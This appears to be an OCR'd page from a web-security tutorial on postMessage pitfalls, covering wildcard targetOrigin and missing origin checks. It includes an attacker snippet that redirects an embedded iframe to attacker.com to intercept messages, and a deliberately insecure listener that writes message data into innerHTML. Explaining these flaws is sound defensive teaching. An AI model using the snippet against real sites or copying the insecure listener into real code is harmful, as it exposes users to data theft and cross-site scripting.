 While `postMessage()` is a secure way to circumvent SOP, improper use can introduce vulnerabilities. Here are some common pitfalls:

1. **Wildcard `targetOrigin`:**

Developers sometimes use `*` as the `targetOrigin`, allowing any origin to access the message. This is dangerous, especially if the message contains sensitive data. For example, if `https://somewebsite.com` embeds an iframe from `http://sub.somewebsite.com` and sends a postMessage with `targetOrigin` as `*`, an attacker can exploit this by changing the location of the iframe to their domain, intercepting the message.

**Example:**

```javascript
parentWindow.postMessage({"user_email":"admin@bugbase.in"},"*");
```

An attacker can host a malicious webpage that changes the location of the iframe loaded by `https://somewebsite.com` to `http://attacker.com` using a simple script:

```html
<iframe src="https://somewebsite.com"></iframe>
<script>
    setTimeout(() => {
        window.frames[0].location = "https://attacker.com/exploit.html";
    }, 6000);
</script>
```

The message intended for `somewebsite.com` will now be sent to the attacker's domain.

**2. Insufficient/Lacking Origin Check:**

On the receiving side, the message event listener should validate the origin of the message before processing it. Failure to do so can lead to vulnerabilities such as Cross-Site Scripting (XSS).

**Example:**

```javascript
window.addEventListener('message', function (event) {
    if (event.origin !== "http://legitimatesite.org:8080")
        return;
    // Perform some action
}, false);
```

If the origin is not properly validated, an attacker could send a message containing an XSS payload that alters the page's content or steals sensitive data.

**Insecure Example:**

```javascript
window.addEventListener('message', function (event) {
    const data = JSON.parse(event.data);
    const accountDiv = document.getElementById("account-div");
    accountDiv.innerHTML = data.message;
});
```
